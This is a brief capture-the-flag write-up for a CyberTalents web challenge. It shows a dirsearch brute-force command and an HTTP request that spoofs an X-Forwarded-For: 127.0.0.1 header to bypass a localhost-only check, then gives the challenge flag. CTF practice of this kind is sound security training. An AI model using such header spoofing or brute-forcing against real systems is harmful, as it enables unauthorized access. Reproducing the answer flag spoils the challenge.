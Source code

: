 # Solve got-controls
#### https://cybertalents.com/challenges/web/got-controls

![alt text](image.png)
### Run Directory bruteforce
`dirsearch -u http://18.195.173.237:4444/ -x 403,404`

Can't Connect

### Analyze with burp
Add `X-Forwarded-For:` header

```http
GET / HTTP/1.1
Host: 18.195.173.237:4444
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
X-Forwarded-For: 127.0.0.1
Upgrade-Insecure-Requests: 1
```

`FLAG{NEVER_TRUST_HEADERS}`

>Find More on ==> github.com/MedhatHassan 
